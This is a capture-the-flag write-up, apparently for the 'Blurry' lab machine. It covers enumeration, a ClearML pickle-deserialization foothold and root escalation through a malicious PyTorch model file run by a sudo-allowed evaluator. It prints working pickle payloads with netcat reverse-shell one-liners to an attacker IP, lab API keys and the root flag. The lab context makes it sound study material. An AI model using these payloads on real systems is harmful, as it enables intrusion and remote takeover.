# Initial Enumeration

As usual we are only provided one IPv4 as entry point together with the indication of the OS used from this challenge, which is BTW Linux.



As usual I will start by running Rustscan and scanning the available services on the TCP service.

```
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey: 
|   3072 3e:21:d5:dc:2e:61:eb:8f:a6:3b:24:2a:b7:1c:05:d3 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQC0B2izYdzgANpvBJW4Ym5zGRggYqa8smNlnRrVK6IuBtHzdlKgcFf+Gw0kSgJEouRe8eyVV9iAyD9HXM2L0N/17+rIZkSmdZPQi8chG/PyZ+H1FqcFB2LyxrynHCBLPTWyuN/tXkaVoDH/aZd1gn9QrbUjSVo9mfEEnUduO5Abf1mnBnkt3gLfBWKq1P1uBRZoAR3EYDiYCHbuYz30rhWR8SgE7CaNlwwZxDxYzJGFsKpKbR+t7ScsviVnbfEwPDWZVEmVEd0XYp1wb5usqWz2k7AMuzDpCyI8klc84aWVqllmLml443PDMIh1Ud2vUnze3FfYcBOo7DiJg7JkEWpcLa6iTModTaeA1tLSUJi3OYJoglW0xbx71di3141pDyROjnIpk/K45zR6CbdRSSqImPPXyo3UrkwFTPrSQbSZfeKzAKVDZxrVKq+rYtd+DWESp4nUdat0TXCgefpSkGfdGLxPZzFg0cQ/IF1cIyfzo1gicwVcLm4iRD9umBFaM2E=
|   256 39:11:42:3f:0c:25:00:08:d7:2f:1b:51:e0:43:9d:85 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBFMB/Pupk38CIbFpK4/RYPqDnnx8F2SGfhzlD32riRsRQwdf19KpqW9Cfpp2xDYZDhA3OeLV36bV5cdnl07bSsw=
|   256 b0:6f:a0:0a:9e:df:b1:7a:49:78:86:b2:35:40:ec:95 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOjcxHOO/Vs6yPUw6ibE6gvOuakAnmR7gTk/yE2yJA/3
80/tcp open  http    syn-ack ttl 63 nginx 1.18.0
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to http://app.blurry.htb/
|_http-server-header: nginx/1.18.0
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: Linux 2.6.32 (96%), Linux 4.15 - 5.8 (96%), Linux 5.3 - 5.4 (95%), Linux 5.0 - 5.5 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (95%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 5.0 - 5.4 (93%)
No exact OS matches for host (test conditions non-ideal).
TCP/IP fingerprint:
SCAN(V=7.94SVN%E=4%D=6/9%OT=22%CT=%CU=43447%PV=Y%DS=2%DC=T%G=N%TM=66657B80%P=x86_64-pc-linux-gnu)
SEQ(SP=101%GCD=1%ISR=10C%TI=Z%CI=Z%II=I%TS=A)
OPS(O1=M550ST11NW7%O2=M550ST11NW7%O3=M550NNT11NW7%O4=M550ST11NW7%O5=M550ST11NW7%O6=M550ST11)
WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)
ECN(R=Y%DF=Y%T=40%W=FAF0%O=M550NNSNW7%CC=Y%Q=)
T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=N)
T3(R=N)
T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)
IE(R=Y%DFI=N%T=40%CD=S)
```

I see a specified FQDN that the website is pointing to, so I will add that to my local host file and perform a UDP scan as well.

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads]
└─# nmap -sU -F 10.10.11.19                 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-09 11:55 CEST
Stats: 0:00:12 elapsed; 0 hosts completed (1 up), 1 undergoing UDP Scan
UDP Scan Timing: About 20.44% done; ETC: 11:56 (0:00:47 remaining)
Stats: 0:00:15 elapsed; 0 hosts completed (1 up), 1 undergoing UDP Scan
UDP Scan Timing: About 23.89% done; ETC: 11:56 (0:00:48 remaining)
Stats: 0:01:05 elapsed; 0 hosts completed (1 up), 1 undergoing UDP Scan
UDP Scan Timing: About 67.22% done; ETC: 11:57 (0:00:32 remaining)
Stats: 0:01:36 elapsed; 0 hosts completed (1 up), 1 undergoing UDP Scan
UDP Scan Timing: About 96.11% done; ETC: 11:57 (0:00:04 remaining)
Stats: 0:01:37 elapsed; 0 hosts completed (1 up), 1 undergoing UDP Scan
UDP Scan Timing: About 97.11% done; ETC: 11:57 (0:00:03 remaining)
Nmap scan report for app.blurry.htb (10.10.11.19)
Host is up (0.042s latency).
Not shown: 99 closed udp ports (port-unreach)
PORT   STATE         SERVICE
68/udp open|filtered dhcpc

Nmap done: 1 IP address (1 host up) scanned in 108.51 seconds
```

Nothing much so I will move on and fuzz the services manually!

&nbsp;

# SSH

As usual we will not do anything crazy here as bruteforcing or similar cause it will not be an intented pat.

Since SSH is only a carrier service I will move on for now...

&nbsp;

# HTTP

I know we have a specific website under app.\*.htb but I will check some other stuff before diving into web attacks!


I will check for possible VHOSTS on the machine!

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads]
└─# ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -u http://blurry.htb -H "Host:FUZZ.blurry.htb" -fl 8

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://blurry.htb
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt
 :: Header           : Host: FUZZ.blurry.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response lines: 8
________________________________________________

files                   [Status: 200, Size: 2, Words: 1, Lines: 1, Duration: 42ms]
app                     [Status: 200, Size: 13327, Words: 382, Lines: 29, Duration: 38ms]
chat                    [Status: 200, Size: 218733, Words: 12692, Lines: 449, Duration: 97ms]
:: Progress: [19966/19966] :: Job [1/1] :: 1212 req/sec :: Duration: [0:00:17] :: Errors: 0 ::
```

Nice! We have 2 other subdomains as well! So let's add them to our files and move on!

I will perform a web/dir/file check via Dirsearch and check for possible hidden files.

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads]
└─# dirsearch -u "http://app.blurry.htb" -x 404,400
/usr/lib/python3/dist-packages/dirsearch/dirsearch.py:23: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html
  from pkg_resources import DistributionNotFound, VersionConflict

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /home/millycash/Downloads/reports/http_app.blurry.htb/_24-06-09_12-05-19.txt

Target: http://app.blurry.htb/

[12:05:19] Starting: 
[12:05:30] 301 -  169B  - /app  ->  http://app.blurry.htb/app/
[12:05:30] 403 -  555B  - /app/
[12:05:31] 301 -  169B  - /assets  ->  http://app.blurry.htb/assets/
[12:05:31] 403 -  555B  - /assets/
[12:05:38] 200 -  139B  - /env.js
[12:05:38] 200 -    6KB - /favicon.ico
[12:05:39] 200 -    2B  - /files/

Task Completed
```

Not much but seems like the /files/ is same as the files.blurry.htb results?





Now if we google about this software(CLEARLM) seems like there is a fresh CVE about a possible LFI?

https://hiddenlayer.com/research/not-so-clear-how-mlops-solutions-can-muddy-the-waters-of-your-supply-chain/

before anything I will try to check if the files contain something?

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads]
└─# dirsearch -u "http://files.blurry.htb"           
/usr/lib/python3/dist-packages/dirsearch/dirsearch.py:23: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html
  from pkg_resources import DistributionNotFound, VersionConflict

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /home/millycash/Downloads/reports/http_files.blurry.htb/_24-06-09_12-10-53.txt

Target: http://files.blurry.htb/

[12:10:53] Starting: 

Task Completed
```

Seems like no, and what about the rocketchatt app?  


I will try to create a dummy user and check if I can reach some hidden chat maybe?



There is also another chat telling us about a key information on a specific tag that need to be used?



Which means we need to add the TAG: review in order the victim to see it!

Seems like there is indeed a chat in the app. But since it isn't telling me anything I will start by checking the main application and fetch the requests in BurpSuite!



And immediately under my user configuration I see that we can enable showing the hidden repositories? I wll enable that for the sake of doing it!



And upon login I see several projects, from what I understand this is some kind of DevOps platform?



Before anything I need to footprint the exact version of the applicance so we can see if the CVE we found before might be applicable...

Specifically from the User --> Settings we can footprint the WEB/BACKEND as vers. **1.13.1-426**


Which seems indeed vulnerable to the CVE I linked in before:



But still looking around seems like we can identify some informations used by the backend such as the API keys used by files.blurry.htb?



I also see another subdomain called api.blurry.htb?



Before we need to install and configure the clearlm library that will helpmus to talk back and forth via the api!



We need first to generate the api creds from our username:



Next install the library and configure the connection for allowing a remote execution!

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/Blurry]
└─# clearml-init
ClearML SDK setup process

Please create new clearml credentials through the settings page in your `clearml-server` web app (e.g. http://localhost:8080//settings/workspace-configuration) 
Or create a free account at https://app.clear.ml/settings/workspace-configuration

In settings page, press "Create new credentials", then press "Copy to clipboard".

Paste copied configuration here:
api { 
    web_server: http://app.blurry.htb
    api_server: http://api.blurry.htb
    files_server: http://files.blurry.htb
    # Yovecio
    credentials {
        "access_key" = "H9RC9W0PK2LSKKOB2Y82"
        "secret_key"  = "OvkPvLMJsedbu5PbG1JDFVGAEAs0zAftmUMS4MfMIdvZNjLzgu"
    }
}
Detected credentials key="H9RC9W0PK2LSKKOB2Y82" secret="OvkP***"

ClearML Hosts configuration:
Web App: http://app.blurry.htb
API: http://api.blurry.htb
File Store: http://files.blurry.htb

Verifying credentials ...
Credentials verified!

New configuration stored in /root/clearml.conf
ClearML setup completed successfully.
```

Now reading again the documentation seems like we need to find a published project where we can edit/upload new artifacts and from what i see the last 3 seems like a good candidates!



Now from the guide we need first to prepare our local payload. We can use the default code to inject a new task into "Black Swan" project.

Plus we are adding the tags for "review" which will tell to the victim to review the code!

```
import os, pickle
from clearml import Task

class Execute:
    def __reduce__(self):
        return (os.system, ('nc 10.10.14.5 9001',))
    
command = Execute()
with open('netcat.pkl', 'wb') as f:
    pickle.dump(command, f)

# Initialize a ClearML task (or connect to a pre-existing one)
task = Task.init(project_name='Black Swan', task_name='Shell', tags='review', output_uri=True)

# Upload the pickle file as an artifact - adding the retries and wait on upload seemed to fix the issue
task.upload_artifact(name='pickle_artifact', artifact_object='netcat.pkl', retries=2, wait_on_upload=True, extension_name=".pkl")
```

And now we should be able to excute it?  


And see the new project in the web gui, as you see i have already added the TAG:  


But I am not getting back a shell so I will use a fully developed payload and hope for the best!

```
import os, pickle
from clearml import Task

class Execute:
    def __reduce__(self):
        return (os.system, ('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|powershell -i 2>&1|nc 10.10.14.5 4455 >/tmp/f',))
    
command = Execute()
with open('netcat.pkl', 'wb') as f:
    pickle.dump(command, f)

# Initialize a ClearML task (or connect to a pre-existing one)
task = Task.init(project_name='Black Swan', task_name='Shell', tags='review', output_uri=True)

# Upload the pickle file as an artifact - adding the retries and wait on upload seemed to fix the issue
task.upload_artifact(name='pickle_artifact', artifact_object='netcat.pkl', retries=2, wait_on_upload=True, extension_name=".pkl")
```



And we can see from the screenshot that the task in running on the system.

DAMN! It is still not working...

&nbsp;

# Attempt #2

&nbsp;I suspect the machine is broken so I will spin up a personal istance via the Release Arena VPN and prepare the preface to get a ping back to my server.



Now we can run the script again and see that the script is added to the machine



And now waiting some minutes should ping back to our NC session! The difference I see now is that the exploit.py isn't crashing after a minute but still is on, but apart from that I am still not able to curl back to my server, this doesn't need to be a bad thing might be that curl isn't active so I will attempt to use the shell and hope for the best!



Now after several try and error seems like I had to adapt the code to upload the command and not the pickled file like this:

```
import os, pickle
from clearml import Task

class Execute:
    def __reduce__(self):
        return (os.system, ('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.68 9001 >/tmp/f',))
    
command = Execute()
with open('netcat.pkl', 'wb') as f:
    pickle.dump(command, f)

# Initialize a ClearML task (or connect to a pre-existing one)
task = Task.init(project_name='Black Swan', task_name='Shell', tags="review", output_uri=True)

# Upload the pickle file as an artifact - adding the retries and wait on upload seemed to fix the issue
task.upload_artifact(name='netcat', artifact_object=command, retries=2, wait_on_upload=True, extension_name=".pkl")
```

The reason is explained at the end of the article!



Basically in the poc image they are uploading the artifact by attaching the pickled file.plk this mean that a double pickling is applied after the upload and that's why it is failing. SOLUTION: is to use the command as object and let the pickling get applied by the second plckling!

But this eventually get's us a shell and execution to the user.txt flag!



&nbsp;

# Road to Root.txt

Now we can start to look around for stuff, and specifically we can find a id_rsa key that we can use to gain a shell via SSH.

```
jippity@blurry:~/.ssh$ ls
ls
authorized_keys  id_rsa  id_rsa.pub
jippity@blurry:~/.ssh$ cat
```

Next checking under his folder we can see some keys used by his user, but unsure if we can really do something with it so far since we are already "Jippitty" user.

```
jippity@blurry:~$ cat clearml.conf 
# ClearML SDK configuration file
api {
    # Notice: 'host' is the api server (default port 8008), not the web server.
    api_server: http://api.blurry.htb
    web_server: http://app.blurry.htb
    files_server: http://files.blurry.htb
    # Credentials are generated using the webapp, http://10.129.230.94:8080/settings
    # Override with os environment: CLEARML_API_ACCESS_KEY / CLEARML_API_SECRET_KEY
    credentials {"access_key": "8TL83TDO2YXCQ4789DE4", "secret_key": "peFoHVcUTMA0JdhOHNoQTioLSmtbKEiAVxZXJSHku4LyHlOTUB"}
}
sdk {
    # ClearML - default SDK configuration
```

Checking the sudo permissions seems like this user can evalutate some modes as root!

```
jippity@blurry:~$ sudo -l
Matching Defaults entries for jippity on blurry:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jippity may run the following commands on blurry:
    (root) NOPASSWD: /usr/bin/evaluate_model /models/*.pth
jippity@blurry:~$
```


And under home i don't see any other user which might denote that we have to execute that evalutate_model to get a rce!

```
ippity@blurry:/models$ ls -al
total 1068
drwxrwxr-x  2 root jippity    4096 May 30 10:32 .
drwxr-xr-x 19 root root       4096 Jun  3 09:28 ..
-rw-r--r--  1 root root    1077880 May 30 04:39 demo_model.pth
-rw-r--r--  1 root root       2547 May 30 04:38 evaluate_model.py
jippity@blurry:/models$ /usr/bin/evaluate_model 
Usage: /usr/bin/evaluate_model <path_to_model.pth>
jippity@blurry:/models$ /usr/bin/evaluate_model --help
[!] Unknown or unsupported file format for --help
jippity@blurry:/models$ /usr/bin/evaluate_model -help
Usage: file [-bcCdEhikLlNnprsSvzZ0] [--apple] [--extension] [--mime-encoding]
            [--mime-type] [-e <testname>] [-F <separator>]  [-f <namefile>]
            [-m <magicfiles>] [-P <parameter=value>] [--exclude-quiet]
            <file> ...
       file -C [-m <magicfiles>]
       file [--help]
[!] Unknown or unsupported file format for -help
jippity@blurry:/models$
```

Now we can't edit those files so far as they have root as owner/group and others(we so far) can only read, but can we write under /models folder?



Seems like yes, so now we need to understand how do looks a model like and how can we use that?

I suppose will be something with python so far... Now trying to run strings on the file(there is a lot of jibberish) seems like we have a deserialization in place?

```
_metadataqGh
)RqH(X
qI}qJX
versionqKK
conv1qL}qMhKK
conv2qN}qOhKK
poolqP}qQhKK
fc1qR}qShKK
fc2qT}qUhKK
reluqV}qWhKK
susb.PK
smaller_cifar_net/byteorderFB 
ZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZlittlePK
smaller_cifar_net/data/0FB0
ZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZ
RR<\
~S=:
_;9(
0=38[
```

Checkin on the side there is another python script available?

```
demo_model.pth  evaluate_model.py
jippity@blurry:/models$ cat evaluate_model.py
import torch
import torch.nn as nn
from torchvision import transforms
from torchvision.datasets import CIFAR10
from torch.utils.data import DataLoader, Subset
import numpy as np
import sys


class CustomCNN(nn.Module):
    def __init__(self):
        super(CustomCNN, self).__init__()
        self.conv1 = nn.Conv2d(in_channels=3, out_channels=16, kernel_size=3, padding=1)
        self.conv2 = nn.Conv2d(in_channels=16, out_channels=32, kernel_size=3, padding=1)
        self.pool = nn.MaxPool2d(kernel_size=2, stride=2, padding=0)
        self.fc1 = nn.Linear(in_features=32 * 8 * 8, out_features=128)
        self.fc2 = nn.Linear(in_features=128, out_features=10)
        self.relu = nn.ReLU()

    def forward(self, x):
        x = self.pool(self.relu(self.conv1(x)))
        x = self.pool(self.relu(self.conv2(x)))
        x = x.view(-1, 32 * 8 * 8)
        x = self.relu(self.fc1(x))
        x = self.fc2(x)
        return x


def load_model(model_path):
    model = CustomCNN()
    
    state_dict = torch.load(model_path)
    model.load_state_dict(state_dict)
    
    model.eval()  
    return model

def prepare_dataloader(batch_size=32):
    transform = transforms.Compose([
    transforms.RandomHorizontalFlip(),
    transforms.RandomCrop(32, padding=4),
        transforms.ToTensor(),
        transforms.Normalize(mean=[0.4914, 0.4822, 0.4465], std=[0.2023, 0.1994, 0.2010]),
    ])
    
    dataset = CIFAR10(root='/root/datasets/', train=False, download=False, transform=transform)
    subset = Subset(dataset, indices=np.random.choice(len(dataset), 64, replace=False))
    dataloader = DataLoader(subset, batch_size=batch_size, shuffle=False)
    return dataloader

def evaluate_model(model, dataloader):
    correct = 0
    total = 0
    with torch.no_grad():  
        for images, labels in dataloader:
            outputs = model(images)
            _, predicted = torch.max(outputs.data, 1)
            total += labels.size(0)
            correct += (predicted == labels).sum().item()
    
    accuracy = 100 * correct / total
    print(f'[+] Accuracy of the model on the test dataset: {accuracy:.2f}%')

def main(model_path):
    model = load_model(model_path)
    print("[+] Loaded Model.")
    dataloader = prepare_dataloader()
    print("[+] Dataloader ready. Evaluating model...")
    evaluate_model(model, dataloader)

if __name__ == "__main__":
    if len(sys.argv) < 2:
        print("Usage: python script.py <path_to_model.pth>")
    else:
        model_path = sys.argv[1]  # Path to the .pth file
        main(model_path)

jippity@blurry:/models$
```

But before attempting anything I will upload both Linpeas.sh and Pspy to check for juicy informations..













All these folders held no data, as well the ports were only the internal services, so going back to the commando we can run as root seems like we can see the custom executable is indeed just  bash script?

```
jippity@blurry:/models$ strings /usr/bin/evaluate_model
#!/bin/bash
# Evaluate a given model against our proprietary dataset.
# Security checks against model file included.
if [ "$#" -ne 1 ]; then
    /usr/bin/echo "Usage: $0 <path_to_model.pth>"
    exit 1
MODEL_FILE="$1"
TEMP_DIR="/models/temp"
PYTHON_SCRIPT="/models/evaluate_model.py"  
/usr/bin/mkdir -p "$TEMP_DIR"
file_type=$(/usr/bin/file --brief "$MODEL_FILE")
# Extract based on file type
if [[ "$file_type" == *"POSIX tar archive"* ]]; then
    # POSIX tar archive (older PyTorch format)
    /usr/bin/tar -xf "$MODEL_FILE" -C "$TEMP_DIR"
elif [[ "$file_type" == *"Zip archive data"* ]]; then
    # Zip archive (newer PyTorch format)
    /usr/bin/unzip -q "$MODEL_FILE" -d "$TEMP_DIR"
else
    /usr/bin/echo "[!] Unknown or unsupported file format for $MODEL_FILE"
    exit 2
/usr/bin/find "$TEMP_DIR" -type f \( -name "*.pkl" -o -name "pickle" \) -print0 | while IFS= read -r -d $'\0' extracted_pkl; do
    fickling_output=$(/usr/local/bin/fickling -s --json-output /dev/fd/1 "$extracted_pkl")
    if /usr/bin/echo "$fickling_output" | /usr/bin/jq -e 'select(.severity == "OVERTLY_MALICIOUS")' >/dev/null; then
        /usr/bin/echo "[!] Model $MODEL_FILE contains OVERTLY_MALICIOUS components and will be deleted."
        /bin/rm "$MODEL_FILE"
        break
    fi
done
/usr/bin/find "$TEMP_DIR" -type f -exec /bin/rm {} +
/bin/rm -rf "$TEMP_DIR"
if [ -f "$MODEL_FILE" ]; then
    /usr/bin/echo "[+] Model $MODEL_FILE is considered safe. Processing..."
    /usr/bin/python3 "$PYTHON_SCRIPT" "$MODEL_FILE"
```

From this we can see traces of Pythorc models that analyzes the the security of the file. We can also see that the python script is invoked, and the script expects a rar or zip archive with the \*.pth formal.

This can be also checked manually with the "file" command:



If we unzip the demo model under /tmp we can see the file structure and use it as carrier for our attack!

```
jippity@blurry:/tmp$ unzip demo_model.pth
Archive:  demo_model.pth
 extracting: smaller_cifar_net/data.pkl  
 extracting: smaller_cifar_net/byteorder  
 extracting: smaller_cifar_net/data/0  
 extracting: smaller_cifar_net/data/1  
 extracting: smaller_cifar_net/data/2  
 extracting: smaller_cifar_net/data/3  
 extracting: smaller_cifar_net/data/4  
 extracting: smaller_cifar_net/data/5  
 extracting: smaller_cifar_net/data/6  
 extracting: smaller_cifar_net/data/7  
 extracting: smaller_cifar_net/version  
 extracting: smaller_cifar_net/.data/serialization_id  
jippity@blurry:/tmp$ ls
```

Parsing the pythons script in chatGPT we can see that the python script expect a pickled file so we can perform a RCE via pickle deserialization?  


We can use something similar and check if a file under /tmp is created as root then this might work.We can use the code advised in the chatGPT.

```
import pickle

# Define a payload class
class Payload:
    def __reduce__(self):
        import os
        # Payload: the command you want to execute (e.g., write to a file)
        return (os.system, ("echo 'Injected malicious code!' > /tmp/malicious_output.txt",))

# Create the malicious pickle file
with open("malicious.pkl", "wb") as f:
    pickle.dump(Payload(), f)
```

Next we need to execute the code so we can generate the malicous pickled file.

```
jippity@blurry:/tmp$ python3 exploit.py 
jippity@blurry:/tmp$ ls -al
total 9556
drwxrwxrwt 11 root    root       4096 Jun 10 10:42 .
drwxr-xr-x 19 root    root       4096 Jun  3 09:28 ..
-rwxr-xr-x  1 jippity jippity 4681728 Jun 10 10:19 agent
-rw-r--r--  1 jippity jippity 1077880 Jun 10 10:36 demo_model.pth
-rw-r--r--  1 jippity jippity     372 Jun 10 10:42 exploit.py
drwxrwxrwt  2 root    root       4096 Jun  9 14:40 .font-unix
drwxrwxrwt  2 root    root       4096 Jun  9 14:40 .ICE-unix
-rwxr-xr-x  1 jippity jippity  862779 Jun 10 10:03 linpeas.sh
-rw-r--r--  1 jippity jippity      97 Jun 10 10:42 malicious.pkl
-rwxr-xr-x  1 jippity jippity 3104768 Jun 10 10:14 pspy64
drwxr-xr-x  4 jippity jippity    4096 Jun 10 10:36 smaller_cifar_net
drwx------  3 root    root       4096 Jun  9 14:40 systemd-private-5cfdac86298a45e58c69df50860f1bd3-systemd-logind.service-D88U9h
drwx------  3 root    root       4096 Jun  9 14:40 systemd-private-5cfdac86298a45e58c69df50860f1bd3-systemd-timesyncd.service-OmaPxg
drwxrwxrwt  2 root    root       4096 Jun  9 14:40 .Test-unix
drwx------  2 root    root       4096 Jun  9 14:42 vmware-root_293-2084453149
drwxrwxrwt  2 root    root       4096 Jun  9 14:40 .X11-unix
drwxrwxrwt  2 root    root       4096 Jun  9 14:40 .XIM-unix
jippity@blurry:/tmp$ cat malicious.pkl 
��V�posix��system����;echo 'Injected malicious code!' > /tmp/malicious_output.txt���R�.jippity@blurry:/tmp$
```

Next we need to zip the file, and rename to \*.pth.

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/Blurry]
└─# zip malicious_model.zip malicious.pkl
  adding: malicious.pkl (deflated 9%)
                                                                                                                                                                                  
┌──(root㉿kali-bello)-[/home/millycash/Downloads/Blurry]
└─# ll
total 8480
-rwxr-xr-x 1 root      root      4681728 Jun 10 16:19 agent
-rwxrwxrwx 1 root      root          668 Jun 10 15:45 exploit.py
-rw-r--r-- 1 root      root          527 Jun 10 15:18 exploit2.py
-rw------- 1 root      root         2602 Jun 10 15:48 jippity.key
-rw-r--r-- 1 root      root       862779 Jun 10 16:03 linpeas.sh
-rw-r--r-- 1 root      root           97 Jun 10 16:49 malicious.pkl
-rw-r--r-- 1 root      root          264 Jun 10 16:49 malicious_model.zip
-rw-r--r-- 1 root      root          118 Jun 10 15:46 netcat.pkl
-rw-r--r-- 1 root      root          111 Jun 10 15:24 pickle_artifact.pkl
-rw-r--r-- 1 root      root          372 Jun 10 16:49 pickler.py
-rw-rw-r-- 1 millycash millycash 3104768 Jun 10 16:14 pspy64
                                                                                                                                                                                  
┌──(root㉿kali-bello)-[/home/millycash/Downloads/Blurry]
└─# mv malicious_model.zip malicious_model.pth 
                                                                                                                                                                                  
┌──(root㉿kali-bello)-[/home/millycash/Downloads/Blurry]
└─# file malicious_model.pth 
malicious_model.pth: Zip archive data, at least v2.0 to extract, compression method=deflate
```

Now if we upload the file, and execute as sudo it should create a file under /root/  and if the file holds root as owner then we are gucci!

```
jippity@blurry:/models$ sudo /usr/bin/evaluate_model /models/malicious_model.pth 
[+] Model /models/malicious_model.pth is considered safe. Processing...
Traceback (most recent call last):
  File "/models/evaluate_model.py", line 76, in <module>
    main(model_path)
  File "/models/evaluate_model.py", line 65, in main
    model = load_model(model_path)
  File "/models/evaluate_model.py", line 32, in load_model
    state_dict = torch.load(model_path)
  File "/usr/local/lib/python3.9/dist-packages/torch/serialization.py", line 1005, in load
    with _open_zipfile_reader(opened_file) as opened_zipfile:
  File "/usr/local/lib/python3.9/dist-packages/torch/serialization.py", line 457, in __init__
    super().__init__(torch._C.PyTorchFileReader(name_or_buffer))
RuntimeError: [enforce fail at inline_container.cc:166] . file in archive is not in a subdirectory: malicious.pkl
```

Seems like it is complainig about a sufolder that is missing and consecutively the file is not created so my idea here is:

- Decompress the demo.pth
- Replace the pickled file .pkl with mine
- Compress back
- Enjoy?!?

&nbsp;

All the steps done from my pc in one go!



And now we can upload the file and hope for the best!

```
jippity@blurry:/tmp$ sudo -u root /usr/bin/evaluate_model /models/malicious_model.pth 
[+] Model /models/malicious_model.pth is considered safe. Processing...
Traceback (most recent call last):
  File "/models/evaluate_model.py", line 76, in <module>
    main(model_path)
  File "/models/evaluate_model.py", line 65, in main
    model = load_model(model_path)
  File "/models/evaluate_model.py", line 33, in load_model
    model.load_state_dict(state_dict)
  File "/usr/local/lib/python3.9/dist-packages/torch/nn/modules/module.py", line 2104, in load_state_dict
    raise TypeError(f"Expected state_dict to be dict-like, got {type(state_dict)}.")
TypeError: Expected state_dict to be dict-like, got <class 'int'>.
```

DAMN! Still an issue but then coming back to the /tmp/malicious_output.txt I see the file as root!



Which means that we can now get a shell as root! So let's adapt the pickler code...



And preprare the archive:



Upload the malicious.pth under /models:



And fire in the hole!



And now we have a shell baby!

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/Blurry]
└─# nc -lvnp 9002
listening on [any] 9002 ...
connect to [10.10.14.68] from (UNKNOWN) [10.129.27.33] 34016
root@blurry:/tmp# whoami
whoami
root
root@blurry:/tmp# cd /root
cd /root
root@blurry:~# ls -al
ls -al
total 28
drwx------  4 root root 4096 Jun  9 14:41 .
drwxr-xr-x 19 root root 4096 Jun  3 09:28 ..
lrwxrwxrwx  1 root root    9 Feb 17 13:16 .bash_history -> /dev/null
-rw-r--r--  1 root root  571 Apr 10  2021 .bashrc
drwxr-xr-x  3 root root 4096 Feb 14 09:37 datasets
drwxr-xr-x  3 root root 4096 Feb 17 10:43 .local
-rw-r--r--  1 root root  161 Jul  9  2019 .profile
lrwxrwxrwx  1 root root    9 Feb 17 13:16 .python_history -> /dev/null
-rw-r-----  1 root root   33 Jun  9 14:41 root.txt
root@blurry:~# cat root.txt
cat root.txt
ad5730dba819d2fbb0841379c97676f9
root@blurry:~#
```

&nbsp;

&nbsp;

&nbsp;

&nbsp;

&nbsp;

&nbsp;

&nbsp;

&nbsp;